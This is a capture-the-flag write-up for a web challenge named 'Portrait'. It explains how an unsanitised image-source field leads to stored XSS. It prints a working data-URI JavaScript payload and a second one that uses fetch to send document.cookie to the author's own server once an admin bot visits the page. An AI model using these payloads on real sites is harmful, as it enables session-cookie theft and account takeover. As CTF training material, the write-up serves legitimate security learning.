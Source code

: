 **Web: Portrait:**

I found this challenge the toughest, and I think it explains why it had the lowest solves in this category at only 40! 

Anyway the description of the challenge
**"It's like DeviantArt, but with a report button to keep it less Deviant. Reporting a gallery will make the admin bot visit it."**

Again another register & login

Once we log in we have 3 options, Logout, Report a portrait, which by the description we know we will use this to have admin fetch something and Add portrait.
I first went to understand the program better, and see what exactly admin can fetch,
when I tried to add a link, it disclosed the regex used for input validation

![1](https://github.com/user-attachments/assets/77cbefcf-9aa1-47c4-a14f-4410e3cfc109)



I couldn't see a way to bypass this after trying for a couple minutes, I decided to drop it and move on and understand the function of adding a portrait

![2](https://github.com/user-attachments/assets/abffb076-572e-48e1-84e9-9ce678fd73fd)


**Title** and **Image URL are required** so lets take a look at source code to figure out how its processed

![3](https://github.com/user-attachments/assets/55567b83-0f27-4799-a178-ae2e1bbb40a7)


First I noticed this, which tries to fetch the url of our image, if it fails it will replace it with the mountain image linked in the code
within index.js i found  that portraits are stored and fetched from /api/portraits/:username

![4](https://github.com/user-attachments/assets/16f0db2f-3c69-4360-94ff-24de28cda6b1)

/
Below we can see the front end of gallery,again portrait is pulled from /api/portraits/<username>    and it has two attributes
**portrait.source** and **portrait.name** HOWEVER from the two we can see that portrait.source the attribute it uses is src= of the <img


![5](https://github.com/user-attachments/assets/2ae67314-8159-4b5d-8bc1-2694cb037b0a)



Since there was no validation or sanitization for this input, I knew i'd be dealing with a stored XSS, now I would love to tell you I tried a few payloads and boom, I got it to work, this took a very long time to figure out, I've tried so many until I got a hit on the below
**data:text/javascript,print()**

![6](https://github.com/user-attachments/assets/701b19fa-15cf-47e5-96e0-6831f993a1dd)


and boy was I delighted to see this work, next was to find a way to exfiltrate, I saw earlier that sessions are handled using JWT tokens, so I started up my own VPS server to use as a webhook and launched a http server to listen for traffic
the payload I used to exfiltrate the cookie was:

**data:text/javascript,fetch('http://myvpsIP:8080/' + document.cookie)**
Last all was left is to lead the admin "bot" to our profile, by going to report and leading it to my profile URL on the web application, the bot will visit and be met with the above stroed XSS

And there it was a response with the cookie "flag"![image](https://github.com/user-attachments/assets/b7c90163-2626-4fff-a7c0-14f9886ccc0a)
